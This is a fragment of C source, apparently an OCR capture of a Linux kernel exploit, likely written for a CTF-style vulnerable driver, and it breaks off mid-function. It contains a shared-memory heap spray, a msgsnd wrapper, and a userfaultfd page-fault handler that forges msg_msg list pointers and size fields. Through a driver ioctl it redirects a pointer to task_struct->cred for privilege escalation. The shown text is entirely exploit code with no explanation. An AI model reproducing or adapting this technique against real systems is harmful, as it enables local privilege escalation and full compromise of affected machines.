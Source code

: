 ```c

void send_msg(int id, void *buf, size_t size, int flags) {
  if (msgsnd(id, buf, size, flags) < 0) {
    die("[!] Failed to send msg");
  }
  printf("[+] Send message: 0x%lx\n", size);
}

void heap_spary(size_t cnt) {
  int i = 0;
  int shmid = 0;
  void *addr = NULL;
  for (i = 0; i < cnt; i++) {
    shmid = shmget(IPC_PRIVATE, 100, 0600);
    if (shmid < 0) {
      die("[!] shmget failed");
    }
    addr = shmat(shmid, NULL, 0);
    if (addr == (void *)-1) {
      die("[!] shmat failed");
    }
  }
  printf("[+] heap_spary shm, cnt:\t0x%lx\n", cnt);
}

static void fault_handler_thread(void *arg) {
  puts("[+] entered fault_handler_thread!");

  static struct uffd_msg uf_msg;
  uint64_t uffd = (uint64_t)arg;
  struct pollfd pollfd;
  int nready;

  pollfd.fd = uffd;
  pollfd.events = POLLIN;

  puts("[+] polling...");
  while ((nready = poll(&pollfd, 1, -1)) > 0) {
    if (pollfd.revents & POLLERR || pollfd.revents & POLLHUP) {
      die("[!] poll failed\n");
    }
    if ((read(uffd, &uf_msg, sizeof(uf_msg))) == 0) {
      die("[!] read uffd msg failed\n");
    }
    if (uf_msg.event != UFFD_EVENT_PAGEFAULT) {
      die("[!] unexpected pagefault\n");
    }

    printf("[+] page fault: %p\n", (void *)uf_msg.arg.pagefault.address);

    printf("[*] Change next to task_struct->cred\n");
    user_rule_t *rule = calloc(1, sizeof(user_rule_t));
    ((struct msg_msg *)rule)->m_list.next = (void *)0xAAAAAAAA;
    ((struct msg_msg *)rule)->m_list.prev = (void *)0xBBBBBBBB;
    ((struct msg_msg *)rule)->m_ts = 0x1000 + 0x500;
    ((struct msg_msg *)rule)->m_type = 1;
    rule->idx = 1;
    rule->type = OUTBOUND;
    ip_value_to_str(task_struct + 0x530, rule->ip, 16);
    ip_value_to_str((task_struct + 0x530) >> 32, rule->netmask, 16);
    ioctl(global_fd, EDIT_RULE, rule);

    bzero(msg_buf, 0x2000);
```